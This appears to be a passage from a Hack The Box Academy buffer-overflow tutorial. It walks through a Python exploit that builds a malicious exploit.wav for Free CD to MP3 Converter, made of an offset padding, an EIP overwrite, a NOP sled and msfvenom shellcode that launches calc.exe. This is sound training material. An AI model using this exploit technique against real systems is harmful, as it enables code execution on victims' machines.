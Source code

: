 With that, our final payload should look as follows:

Code: python

```python
    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf
```

We can then write `payload` to a `exploit.wav` file, like we did in previous functions:

Code: python

```python
    with open('exploit.wav', 'wb') as f:
        f.write(payload)
```

Once we assemble all of these parts, our final `exploit()` function should look as follows:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

We can now run our code with `F5` in `IDLE` to generate the `exploit.wav` file. Once we do, we can run the `Free CD to MP3 Converter` program (we don't need to run it in `x32dbg`) and load our file to it:

![Calc](https://academy.hackthebox.com/storage/modules/89/win32bof_calc.jpg)

As we can see, our program did crash, but we successfully exploited it and ran our shellcode, which opened `calc.exe`.

---

## Gaining Code Execution

